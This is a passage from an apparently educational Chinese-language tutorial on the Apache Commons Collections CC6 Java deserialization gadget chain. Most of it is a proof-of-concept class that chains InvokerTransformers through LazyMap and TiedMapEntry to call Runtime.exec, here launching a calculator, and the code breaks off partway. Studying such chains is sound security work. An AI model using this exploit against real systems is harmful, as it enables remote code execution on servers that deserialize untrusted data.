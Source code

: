 这样，在反序列化时便能够顺利地触发到`LazyMap#get`方法，并触发其中的`transform`方法调用。

综上，最终构造如下 POC。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/* Gadget Chain:
HashMap.readObject()
    HashMap.put()
    HashMap.hash()
        TiedMapEntry.hashCode()
        TiedMapEntry.getValue()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
*/

public class CC6WithHashMap {
    public static void main(String[] args) throws Exception {
        Transformer[] evilTransformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"open -a Calculator"})
        };

        // 创建一个空ChainedTransformer
        Transformer emptyTransformers = new ChainedTransformer(new Transformer[]{});

        // 将如上创建的空ChainedTransformer传入新创建的lazyMap中
        Map lazyMap = LazyMap.decorate(new HashMap(), emptyTransformers);

        // 创建TiedMapEntry对象，将lazyMap传入其中
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "k");

        // 创建HashMap对象
        Map hashMap = new HashMap();
        hashMap.put(entry, "v");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
```